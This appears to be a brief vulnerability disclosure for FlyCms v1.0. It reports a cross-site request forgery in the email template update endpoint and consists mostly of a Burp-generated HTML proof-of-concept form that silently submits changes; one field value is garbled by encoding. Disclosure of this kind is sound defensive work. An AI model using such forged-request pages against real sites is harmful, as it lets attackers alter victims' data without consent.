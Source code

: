 target:https://github.com/sunkaifei/FlyCms
version: v1.0

FlyCms v1.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /system/email/email_templets_update

![1](https://github.com/mafangqian/cms/assets/84766362/1dadfdb3-eff1-4f38-bd85-72f73d2228d8)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.247.192/system/email/email_templets_update" method="POST">
      <input type="hidden" name="title" value="�&#133;&#141;�&#180;&#185;�&#142;&#183;�&#143;&#150;�&#188;&#128;婧&#144;�&#185;&#139;�&#174;&#182;�&#179;&#168;�&#134;&#140;�&#130;&#174;�&#187;&#182;楠&#140;�&#175;&#129;�&#160;&#129;" />
      <input type="hidden" name="content" value="cs&lt;br&#32;&#47;&gt;" />
      <input type="hidden" name="id" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

![2](https://github.com/mafangqian/cms/assets/84766362/2d2cdbb8-ec49-4e67-b755-1e1c4076020b)


Successed

![3](https://github.com/mafangqian/cms/assets/84766362/95f7e4c6-5c1c-4fb0-a9c3-7f1be3e5f541)
